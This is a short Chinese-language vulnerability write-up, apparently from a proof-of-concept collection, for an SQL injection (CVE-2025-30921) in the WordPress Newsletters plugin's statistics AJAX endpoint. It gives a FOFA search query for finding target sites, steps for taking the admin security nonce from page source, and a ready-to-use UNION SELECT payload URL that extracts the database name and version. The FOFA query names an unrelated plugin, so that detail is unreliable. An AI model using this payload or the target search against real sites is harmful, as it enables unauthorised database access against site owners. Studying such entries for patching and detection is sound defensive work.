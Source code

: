 ## WordPress Newsletters Plugin存在SQL漏洞(CVE-2025-30921)

WordPress在Newsletters插件版本4.9.9.7或更低版本的插件仪表板中查看统计概览图表时/wp-admin/admin.php?page=newsletters，由于对URL参数的输入验证和转义处理不足，会发生SQL注入漏洞。

## fofa

```
body="/wp-content/plugins/web-directory-free"
```

## 前提条件和Administrator权限
使用浏览器开发者工具，action=wpmlwelcomestats&security=在“元素”选项卡中搜索 并检查 的值security。例如，如果搜索结果如下所示，请记下22b1ac0de6
```
jQuery.getJSON(newsletters_ajaxurl + 'action=wpmlwelcomestats&security=22b1ac0de6', ajaxdata, function(json) {
```
![image](https://github.com/user-attachments/assets/c82f3e9a-fd70-405f-b6d0-d9bd77622f76)

## poc
```javascript
http://localhost:8080/wp-admin/admin-ajax.php?action=wpmlwelcomestats&security=<SECURITY VALUE>&type=years&chart=bar&from=2024-12-31&to=2024-12-31&history_id=FOO%27+UNION+SELECT+(CONCAT((DATABASE()),%22-%22,(@@VERSION))),NULL+LIMIT+1,2+%23
```
![image](https://github.com/user-attachments/assets/c178862e-730b-4ba1-bce0-978b74cc0589)

## 漏洞来源
- https://github.com/DoTTak/CVE-2025-30921
